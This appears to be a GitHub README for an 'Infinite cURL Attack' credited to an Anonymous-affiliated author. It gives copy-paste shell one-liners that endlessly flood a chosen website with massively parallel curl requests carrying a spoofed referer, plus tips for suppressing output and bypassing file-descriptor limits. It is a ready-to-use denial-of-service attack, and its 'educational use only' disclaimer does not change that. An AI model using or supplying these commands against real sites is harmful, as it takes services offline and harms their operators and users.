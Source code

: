 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replace **_https://Your.Target.Website.com_** with your target website) in the Terminal/CMD & press Enter.  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

If you don't want logs in your terminal and make the attacks faster, do this (**the following is my preference**):  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -s -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com" > /dev/null; done;
```  

**Note 1:** Reduce the numbers from **1000000000** if your system crashes. It's the number of parallel requests fired at once.  
**Note 2:** To bypass **open file limit (No file descriptors available)** try out the solution in **https://epi052.github.io/feroxbuster-docs/docs/faq/no-file-descriptors/**  

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
